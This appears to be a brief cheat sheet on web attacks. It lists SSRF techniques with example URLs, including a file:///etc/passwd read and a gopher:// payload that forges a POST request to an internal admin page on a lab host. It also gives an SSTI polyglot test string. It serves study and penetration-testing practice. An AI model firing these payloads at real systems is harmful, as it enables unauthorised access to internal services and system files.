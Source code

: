 ### **SSRF (Server-Side Request Forgery)**

#### Exploitation

|Technique|Description|
|---|---|
|Internal Portscan|Accessing ports on localhost|
|Accessing Restricted Endpoints|Interacting with internal services|

#### Protocols

| Protocol    | Example                                                                                                                                                                                              |
| ----------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `http://`   | `http://127.0.0.1/`                                                                                                                                                                                  |
| `file://`   | `file:///etc/passwd`                                                                                                                                                                                 |
| `gopher://` | `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` |


### **SSTI (Server-Side Template Injection)**

| Category     | Example                                         |
| ------------ | ----------------------------------------------- |
| Exploitation | Templating Engines dynamically generate content |
| Test String  | `${{<%[%'"}}%\.`                                |
